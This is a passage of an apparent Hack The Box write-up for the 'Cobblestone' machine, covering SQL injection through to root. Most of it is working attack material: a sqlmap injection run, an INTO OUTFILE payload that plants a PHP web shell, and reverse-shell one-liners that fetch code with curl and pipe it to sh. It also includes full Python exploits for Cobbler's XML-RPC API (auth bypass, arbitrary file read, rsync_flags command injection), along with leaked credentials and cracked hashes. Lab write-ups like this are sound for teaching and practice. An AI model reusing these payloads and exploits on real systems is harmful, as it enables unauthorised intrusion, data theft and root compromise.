[21:20:46] 403 -  287B  - /.htpasswd_test
[21:20:46] 403 -  287B  - /.httr-oauth                                      
[21:20:47] 403 -  287B  - /.php                                             
[21:21:03] 301 -  330B  - /css  ->  http://deploy.cobblestone.htb/css/      
[21:21:10] 301 -  330B  - /img  ->  http://deploy.cobblestone.htb/img/      
[21:21:11] 301 -  337B  - /javascript  ->  http://deploy.cobblestone.htb/javascript/
[21:21:25] 403 -  287B  - /server-status                                    
[21:21:25] 403 -  287B  - /server-status/                                   
                                                                             
Task Completed
```

## SQL Injection

We headed back to `vote.cobblestone.htb` and since we new that the `HTTPOnly` flag was set, we looked for `SQL Injection (SQLi)`. To test it in the most easy way, we just added a `'` in the field for the `server URL`.



```shell
POST /suggest.php HTTP/1.1
Host: vote.cobblestone.htb
Content-Length: 7
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://vote.cobblestone.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://vote.cobblestone.htb/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d68g85s8nboctfm0qsnm9772vn
Connection: keep-alive

url=%27
```

When we forwarded it, we received an empty page with only the background loaded. That was kinda odd.



We `saved` the `request` to a `file` and modified the `value` in the `URL` to a `wildcard (*)` in order to use it with `sqlmap`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/files]
└─$ cat request.req 
POST /suggest.php HTTP/1.1
Host: vote.cobblestone.htb
Content-Length: 7
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://vote.cobblestone.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://vote.cobblestone.htb/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d68g85s8nboctfm0qsnm9772vn
Connection: keep-alive

url=*
```

### Automation using sqlmap

With `sqlmap` we gave it the full blown good old college try and shutdown our brains to see what the tool could evaluate. After some time it found a `Time-Based Blind SQL Injection` on the application.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/files]
└─$ sqlmap -r request.req --level 5 --risk 3 --dump --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.6#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:01:08 /2025-08-09/

[22:01:08] [INFO] parsing HTTP request from 'request.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[22:01:08] [INFO] testing connection to the target URL
[22:01:08] [INFO] testing if the target URL content is stable
[22:01:09] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[22:01:09] [INFO] testing if (custom) POST parameter '#1*' is dynamic
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=4'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[22:01:09] [INFO] (custom) POST parameter '#1*' appears to be dynamic
[22:01:10] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[22:01:10] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[22:01:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:01:11] [WARNING] reflective value(s) found and filtering out
[22:01:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[22:02:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
<--- CUT FOR BREVITY --->
[22:38:26] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[22:38:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:38:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:38:35] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[22:38:45] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[22:38:50] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[22:38:54] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[22:38:57] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[22:39:00] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[22:39:02] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[22:39:04] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[22:39:06] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[22:39:07] [INFO] checking if the injection point on (custom) POST parameter '#1*' is a false positive
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 5694 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=' AND (SELECT 4109 FROM (SELECT(SLEEP(5)))leJD)-- othF
---
[22:40:11] [INFO] the back-end DBMS is MySQL
[22:40:11] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:40:16] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 7 times, 500 (Internal Server Error) - 301 times
[22:40:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 22:40:16 /2025-08-09/
```

## Foothold

Our buddy `trustie_rity` figured out that it was possible to use `--read-file` and `--write-file` with `sqlmap` which didn't worked for me at all. Therefore I needed to fiddle my way through the manual steps of injection, which was thankfully not that difficult because I knew basically all of the values.

```shell
' UNION SELECT 1,2,3,"<?php system($_GET['cmd']); ?>",5 INTO OUTFILE '/var/www/vote/x.php'-- -
```

I entered the `payload` in the `server URL` field and used `curl` for a quick check on the `web shell`.



It worked!

```shell
┌──(kali㉿kali)-[~]
└─$ curl 'http://vote.cobblestone.htb/x.php?cmd=id'
1       2       3       uid=33(www-data) gid=33(www-data) groups=33(www-data)
        5
```

Now it was time to prepare a `reverse shell payload` and stage it locally.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/serve]
└─$ cat x
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.19/9001 0>&1'
```

I accessed the `web shell` with the command to `curl` my `payload` and got a `callback` as `www-data`.

```shell
http://vote.cobblestone.htb/x.php?cmd=curl%2010.10.16.19/x|sh
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.159.239] 34924
bash: cannot set terminal process group (1281): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cobblestone:/var/www/vote$
```

Now I stabilized my shell as always and was on the same page as my buddy.

```shell
www-data@cobblestone:/var/www/vote$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ote$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cobblestone:/var/www/vote$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@cobblestone:/var/www/vote$ 
www-data@cobblestone:/var/www/vote$ export XTERM=xterm
www-data@cobblestone:/var/www/vote$
```

## Enumeration (www-data)

We did a quick `enumeration` as `www-data` and found two other users.

```shell
www-data@cobblestone:/var/www/vote$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
cobble:x:1000:1000:cobble,,,:/home/cobble:/bin/rbash
mysql:x:103:112:MySQL Server,,,:/nonexistent:/bin/false
tftp:x:104:113:tftp daemon,,,:/srv/tftp:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
john:x:1001:1001:,,,:/home/john:/bin/bash
```

| Username |
| -------- |
| cobble   |
| john     |

Since we only had a `low-privileged user account`, we needed to find some `credentials`. Therefore we checked the `directories` within `/var/www/` and found another `db` folder containing a `connection.php` with `plaintext credentials` in it.

```shell
www-data@cobblestone:/var/www/vote/db$ cat connection.php 
<?php

$dbserver = "localhost";
$username = "voteuser";
$password = "thaixu6eih0Iicho]irahvoh6aigh>ie";
$dbname = "vote";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

| Username | Password                         |
| -------- | -------------------------------- |
| voteuser | thaixu6eih0Iicho]irahvoh6aigh>ie |

```shell
www-data@cobblestone:/var/www/html/db$ cat connection.php 
<?php

$dbserver = "localhost";
$username = "dbuser";
$password = "aichooDeeYanaekungei9rogi0eMuo2o";
$dbname = "cobblestone";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

| Username | Password                         |
| -------- | -------------------------------- |
| dbuser   | aichooDeeYanaekungei9rogi0eMuo2o |

Due to the fact that there was some sort of more sophisticated `web server configuration` we also checked the `000-default.conf` inside the `apache2` directory in `/etc/` and put the content to our notes. We noticed the `cobbler_api` endpoint running on `localhost` on port `25151/TCP`.

```shell
www-data@cobblestone:/var/www/vote$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^cobblestone.htb$
        RewriteRule /.* http://cobblestone.htb/ [R]
        ServerName 127.0.0.1
        ProxyPass "/cobbler_api" "http://127.0.0.1:25151/"
        ProxyPassReverse "/cobbler_api" "http://127.0.0.1:25151/"
</VirtualHost>

<VirtualHost *:80>
        ServerName cobblestone.htb

        ServerAdmin cobble@cobblestone.htb
        DocumentRoot /var/www/html

        <Directory /var/www/html>
                AAHatName cobblestone
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^cobblestone.htb$
        RewriteRule /.* http://cobblestone.htb/ [R]

        Alias /cobbler /srv/www/cobbler

        <Directory /srv/www/cobbler>
                Options Indexes FollowSymLinks
                AllowOverride None
                Require all granted
        </Directory>

</VirtualHost>

<VirtualHost *:80>
        ServerName deploy.cobblestone.htb

        ServerAdmin cobble@cobblestone.htb
        DocumentRoot /var/www/deploy

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^deploy.cobblestone.htb$
        RewriteRule /.* http://deploy.cobblestone.htb/ [R]
</VirtualHost>

<VirtualHost *:80>
        ServerName vote.cobblestone.htb

        ServerAdmin cobble@cobblestone.htb
        DocumentRoot /var/www/vote

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^vote.cobblestone.htb$
        RewriteRule /.* http://vote.cobblestone.htb/ [R]
</VirtualHost>
```

## Privilege Escalation to cobble

### MariaDB Enumeration

With the previously found credentials we accessed the `MariaDB` instance to search for credentials matching the available users on the system.

```shell
www-data@cobblestone:/var/www/vote$ mysql -u dbuser -p'aichooDeeYanaekungei9rogi0eMuo2o' -h 127.0.0.1 cobblestone
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 108
Server version: 10.11.11-MariaDB-0+deb12u1-log Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [cobblestone]>
```

```shell
MariaDB [cobblestone]> show databases;
+--------------------+
| Database           |
+--------------------+
| cobblestone        |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)
```

```shell
MariaDB [cobblestone]> use cobblestone; 
Database changed
```

```shell
MariaDB [cobblestone]> show tables; 
+-----------------------+
| Tables_in_cobblestone |
+-----------------------+
| skins                 |
| suggestions           |
| users                 |
+-----------------------+
3 rows in set (0.001 sec)
```

```shell
MariaDB [cobblestone]> select * from users \G;
*************************** 1. row ***************************
         id: 1
   Username: admin
  FirstName: admin
   LastName: admin
      Email: admin@cobblestone.htb
       Role: admin
   Password: f4166d263f25a862fa1b77116693253c24d18a36f5ac597d8a01b10a25c560d1
register_ip: *
*************************** 2. row ***************************
         id: 2
   Username: cobble
  FirstName: cobble
   LastName: stone
      Email: cobble@cobblestone.htb
       Role: admin
   Password: 20cdc5073e9e7a7631e9d35b5e1282a4fe6a8049e8a84c82987473321b0a8f4d
register_ip: *
2 rows in set (0.000 sec)

ERROR: No query specified
```

### Cracking the Hash for cobble

We first tried to crack the hash of cobble locally, which didn't worked and then checked `crackstation.net` which had the hash already cracked and provided us the `password` for `cobble`.

- [https://crackstation.net/](https://crackstation.net/)

| Username | Password                 |
| -------- | ------------------------ |
| cobbler  | iluvdannymorethanyouknow |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh cobble@cobblestone.htb
The authenticity of host 'cobblestone.htb (10.129.159.239)' can't be established.
ED25519 key fingerprint is SHA256:c5Fpg/cgHQO2EmwqsW3VtYIVXXMz7nz8dwjibC8n0gw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cobblestone.htb' (ED25519) to the list of known hosts.
cobble@cobblestone.htb's password:
Linux cobblestone 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
cobble@cobblestone:~$
```

## user.txt

With access to the user `cobble` we were able to grab the `user.txt` and move on.

```shell
cobble@cobblestone:~$ cat user.txt 
3bc273956981edfdebecace3a7f6e309
```

## Enumeration (cobble)

Our `enumeration` on `cobble` ended quick quick because the user was configured to use `rbash` which stands for `restricted bash`. There is a lot of documentation on how to `escape rbash` but none of those worked. We took it as a rabbit hole and searched for a different way to escalate our privileges even further.

```shell
cobble@cobblestone:~$ id                                                    
-rbash: id: command not found
```

## Privilege Escalation to root

### Option 1

#### CVE‑2021‑40323: Arbitrary File Disclosure / Template Injection in cobbler API

We headed back to the `cobbler API` and found some hints about potential vulnerability that we eventually could abuse.

The following `Proof of Concept (PoC)` indeed worked for us.

- [https://github.com/cobbler/cobbler/security/advisories/GHSA-m26c-fcgh-cp6h](https://github.com/cobbler/cobbler/security/advisories/GHSA-m26c-fcgh-cp6h)

```python
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/serve]
└─$ cat poc.py 
#!/usr/bin/python3

import ssl
import xmlrpc.client

params = { 'proto': 'https', 'host': '127.0.0.1', 'port': '443', 'username': '', 'password': -1 }
ssl_context = ssl._create_unverified_context()

url = 'http://localhost:25151/'.format(**params)
if ssl_context:
    conn = xmlrpc.client.ServerProxy(url, context=ssl_context)
else:
    conn = xmlrpc.client.Server(url)

try:
    token = conn.login(params['username'], params['password'])
except xmlrpc.client.Fault as e:
    print("Failed to log in to Cobbler '{url}' as '{username}'. {error}".format(url=url, error=e, **params))
except Exception as e:
    print("Connection to '{url}' failed. {error}".format(url=url, error=e, **params))

print("Login success!")

system_id = conn.new_system(token)
```

We modified the `PoC` to `leak` the `session token` for the `authentication` too.

```python
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/serve]
└─$ cat modified_poc.py 
#!/usr/bin/env python3
import ssl, xmlrpc.client

params = {
    "proto": "http",
    "host": "127.0.0.1",
    "port": "25151",
    "username": "",           # CTF often leaves this blank
    "password": -1            # and this (string also works)
}

ssl_ctx = ssl._create_unverified_context()
url = f"{params['proto']}://{params['host']}:{params['port']}/"

conn = xmlrpc.client.ServerProxy(url, context=ssl_ctx, allow_none=True, use_datetime=True)

try:
    token = conn.login(params["username"], params["password"])
    if not token:
        raise RuntimeError("Empty/invalid token")
    print(f"[+] Login success. Token: {token!r}")
    # Not every version exposes get_version via XML-RPC, but many do
    try:
        ver = conn.get_version(token)
        print(f"[+] Cobbler version: {ver}")
    except Exception as e:
        print(f"[!] get_version not available or failed: {e}")
except xmlrpc.client.Fault as e:
    print(f"[!] Cobbler login fault: {e}")
except Exception as e:
    print(f"[!] Connection/login error: {e}")
```

```shell
www-data@cobblestone:/tmp$ python3 poc.py 
Login success!
```

```shell
www-data@cobblestone:/tmp$ python3 modified_poc.py                
[+] Login success. Token: 'jMsyA6oIxaN4MewZuMfN+GGQ2hokSj/HTA=='
[!] get_version not available or failed: <Fault 1: '<class \'cobbler.cexceptions.CX\'>:"unknown remote method \'get_version\'"'>
```

Next we tried to exploit `CVE‑2021‑40323` which described an `Arbitrary File Disclosure` / `Template Injection` in the `cobbler API`.

- [https://tnpitsecurity.com/blog/cobbler-multiple-vulnerabilities/](https://tnpitsecurity.com/blog/cobbler-multiple-vulnerabilities/)
- [https://movermeyer.com/2018-08-02-privilege-escalation-exploits-in-cobblers-api/](https://movermeyer.com/2018-08-02-privilege-escalation-exploits-in-cobblers-api/)

That exploited a `logic flaw` in how cobbler's `template_files` and `get_template_file_for_system` worked.

- Cobbler assumed that a user only map safe template files.
- But it was possible to point it to `any` file path the cobbler server was able to read.
- When we later called `get_template_file_for_system`, the server read that file and returned its content unfiltered.

We created a custom exploit to read any file we wanted like the `root.txt` inside `/root/`.

```python
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/serve]
└─$ cat exploit.py 
#!/usr/bin/env python3
import xmlrpc.client, argparse, uuid, sys

def main():
    ap = argparse.ArgumentParser(description="Cobbler file read via template_files")
    ap.add_argument("--url", default="http://127.0.0.1:25151/RPC2")
    ap.add_argument("--user", default="")
    ap.add_argument("--passw", default="-1")  # string on purpose
    ap.add_argument("--kernel", default="/boot/vmlinuz-6.1.0-37-amd64")
    ap.add_argument("--initrd", default="/boot/initrd.img-6.1.0-37-amd64")
    ap.add_argument("--target", default="/root/root.txt")
    ap.add_argument("--dest",   default="/leak")
    args = ap.parse_args()

    srv = xmlrpc.client.ServerProxy(args.url, allow_none=True)
    tok = srv.login(args.user, args.passw)

    suffix = uuid.uuid4().hex[:8]
    dname  = f"d_{suffix}"
    pname  = f"p_{suffix}"
    sname  = f"s_{suffix}"

    did = srv.new_distro(tok)
    for k, v in [
        ("name", dname), ("arch", "x86_64"), ("breed", "redhat"),
        ("kernel", args.kernel), ("initrd", args.initrd)
    ]:
        srv.modify_distro(did, k, v, tok)
    srv.save_distro(did, tok)

    pid = srv.new_profile(tok)
    srv.modify_profile(pid, "name", pname, tok)
    srv.modify_profile(pid, "distro", dname, tok)
    srv.save_profile(pid, tok)

    sid = srv.new_system(tok)
    srv.modify_system(sid, "name", sname, tok)
    srv.modify_system(sid, "profile", pname, tok)
    srv.modify_system(sid, "template_files", {args.target: args.dest}, tok)
    srv.save_system(sid, tok)

    srv.sync(tok)
    sys.stdout.write(srv.get_template_file_for_system(sname, args.dest))

if __name__ == "__main__":
    main()
```

And so we leaked the `root.txt`. We also tried to get any `SSH Private Keys` but there were no keys on the box.

```shell
www-data@cobblestone:/tmp$ python3 exploit.py 
8bfbf9c6ad5644de2d3cb01687084439
```

### Option 2

#### CVE-2021-40324: Arbitrary File Write in cobbler API

Since we always want a `shell` as `root`, we went the last mile and tried to achieve actual `code execution` as `root`.

That required us to work with the second vulnerability described in `CVE-2021-40324` which is an `Arbitrary File Write` through the cobbler API.

```python
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/serve]
└─$ cat root.py 
#!/usr/bin/env python3
"""
Cobbler API Command Injection Exploit
Exploits rsync_flags parameter in background_import to achieve RCE
"""

import xmlrpc.client
import argparse
import sys
from urllib.parse import urlparse

class CobblerExploit:
    def __init__(self, target_host, target_port=25151, lhost=None, lport=4444):
        self.target_host = target_host
        self.target_port = target_port
        self.lhost = lhost
        self.lport = lport
        self.server_url = f"http://{target_host}:{target_port}/RPC2"
        self.client = xmlrpc.client.ServerProxy(self.server_url)
        self.auth_token = None
    
    def authenticate(self, user="cobbler", passwd="cobbler"):
        """Authenticate with Cobbler API"""
        try:
            self.auth_token = self.client.login(user, passwd)
            print(f"[+] Authentication successful with {user}:{passwd}")
            return True
        except xmlrpc.client.Fault as err:
            print(f"[-] Authentication failed: {err}")
            return False
    
    def craft_payload(self, command=None):
        """Generate command injection payload"""
        if command:
            payload = f"--verbose; {command} &"
        elif self.lhost:
            payload = f"--verbose; bash -c 'exec bash -i &>/dev/tcp/{self.lhost}/{self.lport} <&1' &"
        else:
            payload = "--verbose; id > /tmp/cobbler_pwned &"
        
        return payload
    
    def trigger_exploit(self, custom_command=None, import_name="pwn_import"):
        """Execute the command injection via rsync_flags"""
        if not self.auth_token:
            print("[-] Not authenticated. Cannot proceed.")
            return False
        
        injection_payload = self.craft_payload(custom_command)
        
        exploit_params = {
            "path": "/var/www/cobbler/ks_mirror",
            "name": import_name,
            "rsync_flags": injection_payload
        }
        
        print(f"[*] Triggering exploit with payload: {injection_payload}")
        
        try:
            response = self.client.background_import(exploit_params, self.auth_token)
            print(f"[+] Exploit triggered successfully. Response: {response}")
            return True
        except xmlrpc.client.Fault as err:
            print(f"[-] Exploit failed: {err}")
            return False
    
    def run_exploit(self, username="cobbler", password="cobbler", command=None):
        """Main exploitation routine"""
        print(f"[*] Targeting Cobbler API at {self.server_url}")
        
        if not self.authenticate(username, password):
            return False
            
        if self.trigger_exploit(command):
            if command:
                print(f"[+] Command executed: {command}")
            elif self.lhost:
                print(f"[+] Reverse shell payload sent to {self.lhost}:{self.lport}")
            else:
                print("[+] Test payload executed - check /tmp/cobbler_pwned")
            return True
        
        return False

def main():
    parser = argparse.ArgumentParser(description="Cobbler API Command Injection Exploit")
    parser.add_argument("target", help="Target Cobbler server IP/hostname")
    parser.add_argument("-p", "--port", type=int, default=25151, help="Target port (default: 25151)")
    parser.add_argument("-u", "--username", default="cobbler", help="Username (default: cobbler)")
    parser.add_argument("-P", "--password", default="cobbler", help="Password (default: cobbler)")
    parser.add_argument("--lhost", help="Local host for reverse shell")
    parser.add_argument("--lport", type=int, default=4444, help="Local port for reverse shell (default: 4444)")
    parser.add_argument("-c", "--command", help="Custom command to execute")
    
    args = parser.parse_args()
    
    exploit = CobblerExploit(
        target_host=args.target,
        target_port=args.port,
        lhost=args.lhost,
        lport=args.lport
    )
    
    success = exploit.run_exploit(
        username=args.username,
        password=args.password,
        command=args.command
    )
    
    sys.exit(0 if success else 1)

if __name__ == "__main__":
    main()
```

```shell
root.py 127.0.0.1 --lhost 10.10.16.19 --lport 4444                      
[*] Targeting Cobbler API at http://127.0.0.1:25151/RPC2
[+] Authentication successful with cobbler:cobbler
[*] Triggering exploit with payload: --verbose; bash -c 'exec bash -i &>/dev/tcp/10.10.16.19/4444 <&1' &
[+] Exploit triggered successfully. Response: 2025-08-10_042310_Media import_e297464e470b4e73b70556bdb288dbed
[+] Reverse shell payload sent to 10.10.16.19:4444
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cobblestone/serve]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.212.247] 45862
bash: cannot set terminal process group (1160): Inappropriate ioctl for device
bash: no job control in this shell
root@cobblestone:/#
```

## root.txt

```shell
www-data@cobblestone:/tmp$ python3 exploit.py 
8bfbf9c6ad5644de2d3cb01687084439
```

## Closing Note

The exploitation from `www-data` to `root` seemed to be `unintended` but I assume that is what `hacking` is all about. So please HTB, leave it as it is.
